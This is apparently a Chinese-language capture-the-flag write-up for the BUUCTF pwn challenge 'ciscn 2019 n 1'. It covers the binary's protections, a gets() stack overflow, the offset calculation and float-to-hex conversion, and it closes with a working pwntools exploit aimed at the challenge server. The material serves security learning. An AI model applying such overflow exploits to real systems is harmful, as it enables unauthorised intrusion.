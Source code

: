 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 1
date: 2022-3-19 20:30:09
permalink: /pages/2e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

![iswb23](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/iswb23.png)

发现溢出函数`gets`，另外若`v2==11.28125`成立，则直接可获得`flag`

## 思路分析

1. 分析:
   - `v1`处可溢出
   - `v1`与`v2`同时是栈上变量
   - `v2=0`
   - 当`v2=11.28125`时可直接获得`flag`
2. 思路:
   - 从`v1`直接溢出到`v2`处将`v2`修改为`11.28125`即可获得`flag`

## 确定偏移量

- 通过`ida`及简单的调试可知从`v1`到`v2`的偏移量为`0x30-4`

## 问题

`pwntools`中的`flat`无法打包`float`类型变量:

- 需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```
